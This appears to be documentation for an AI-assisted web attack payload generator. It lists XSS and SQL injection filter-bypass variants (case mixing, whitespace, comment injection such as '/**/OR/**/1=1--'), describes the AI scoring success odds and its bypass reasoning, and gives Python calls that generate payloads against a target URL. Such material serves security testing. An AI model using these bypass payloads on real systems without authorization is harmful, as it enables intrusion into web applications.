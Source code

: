 - **Case Manipulation**:
  - Mixed case: `<ScRiPt>`
  - Case alternation: `<sCrIpT>`
  - Case inversion: `<SCRIPT>`

- **Whitespace Techniques**:
  - Tab characters: `<script>\talert('XSS')</script>`
  - Newline characters: `<script>\nalert('XSS')\n</script>`
  - Carriage return: `<script>\ralert('XSS')\r</script>`
  - Multiple spaces: `<script>   alert('XSS')   </script>`

- **Comment Injection**:
  - SQL comments: `'/**/OR/**/1=1--`
  - HTML comments: `<script><!--alert('XSS')--></script>`
  - JavaScript comments: `<script>/*alert('XSS')*/</script>`

### Success Probability Estimation

The AI estimates success probability based on:

- **Target Analysis**: Technology stack, WAF presence, framework detection
- **Context Analysis**: Input type, validation patterns, expected formats
- **Historical Data**: Success rates of similar payloads
- **Bypass Techniques**: Effectiveness of applied bypass methods
- **Difficulty Level**: Complexity of the target and payload

### AI Reasoning

Each payload includes AI reasoning explaining:

- **Payload Choice**: Why this specific payload was selected
- **Technique Selection**: Why this technique is most appropriate
- **Bypass Strategy**: How bypass techniques were chosen
- **Success Factors**: What makes this payload likely to succeed
- **Risk Assessment**: Why this payload has the given risk level

## Best Practices

### 1. **Target Analysis First**
Always analyze the target before generating payloads:
```python
# Analyze target first
analysis = await analyze_target(target_url)
recommendations = analysis['recommendations']

# Use recommendations for payload generation
payloads = await generate_payloads(target_url, recommendations['vulnerability_types'][0])
```

### 2. **Context-Specific Generation**
Use appropriate contexts for different scenarios:
```python
# For API testing
payloads = await generate_contextual_payloads(target_url, "api_endpoint", "sqli")

# For form testing
payloads = await generate_contextual_payloads(target_url, "form_field", "xss")
```
